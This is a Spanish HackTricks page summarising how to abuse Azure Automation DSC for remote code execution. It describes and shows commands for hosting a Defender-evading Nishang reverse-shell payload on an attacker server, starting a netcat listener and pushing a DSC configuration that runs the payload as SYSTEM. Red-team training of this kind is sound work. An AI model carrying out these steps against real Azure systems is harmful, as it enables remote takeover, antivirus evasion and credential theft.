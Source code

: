 # Az - Ejecución de Código Remoto en Configuración de Estado

<details>

<summary><strong>Aprende a hackear AWS desde cero hasta convertirte en un experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén [**productos oficiales de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en GitHub.

</details>

**Consulta la publicación completa en: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Resumen de la Preparación de la Infraestructura del Servidor Remoto (C2) y Pasos

#### Visión general
El proceso implica configurar una infraestructura de servidor remoto para alojar un payload modificado `Invoke-PowerShellTcp.ps1` de Nishang, llamado `RevPS.ps1`, diseñado para evadir Windows Defender. El payload se sirve desde una máquina Kali Linux con IP `40.84.7.74` utilizando un servidor HTTP Python simple. La operación se ejecuta a través de varios pasos:

#### Paso 1 — Crear Archivos
- **Archivos Requeridos:** Se necesitan dos scripts de PowerShell:
1. `reverse_shell_config.ps1`: Un archivo de Configuración de Estado Deseado (DSC) que obtiene y ejecuta el payload. Se puede obtener en [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Un script para publicar la configuración en la VM, disponible en [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personalización:** Las variables y parámetros en estos archivos deben adaptarse al entorno específico del usuario, incluidos los nombres de recursos, rutas de archivos e identificadores de servidor/payload.

#### Paso 2 — Comprimir Archivo de Configuración
- El archivo `reverse_shell_config.ps1` se comprime en un archivo `.zip`, preparándolo para transferirlo a la Cuenta de Almacenamiento de Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Paso 3 — Establecer Contexto de Almacenamiento y Subir
- El archivo de configuración comprimido se carga en un contenedor de almacenamiento de Azure predefinido, azure-pentest, utilizando el cmdlet Set-AzStorageBlobContent de Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Paso 4 — Preparar Kali Box
- El servidor Kali descarga el payload RevPS.ps1 desde un repositorio de GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- El script se edita para especificar la VM de Windows objetivo y el puerto para el shell inverso.

#### Paso 5 — Publicar Archivo de Configuración
- Se ejecuta el archivo de configuración, lo que resulta en la implementación del script de shell inverso en la ubicación especificada en la VM de Windows.

#### Paso 6 — Alojar Carga Útil y Configurar el Escucha
- Se inicia un SimpleHTTPServer de Python para alojar la carga útil, junto con un escucha de Netcat para capturar las conexiones entrantes.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- La tarea programada ejecuta la carga útil, logrando privilegios a nivel de SISTEMA.

#### Conclusión

La ejecución exitosa de este proceso abre numerosas posibilidades para acciones adicionales, como el robo de credenciales o la expansión del ataque a múltiples VM. La guía fomenta el aprendizaje continuo y la creatividad en el ámbito de Azure Automation DSC.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
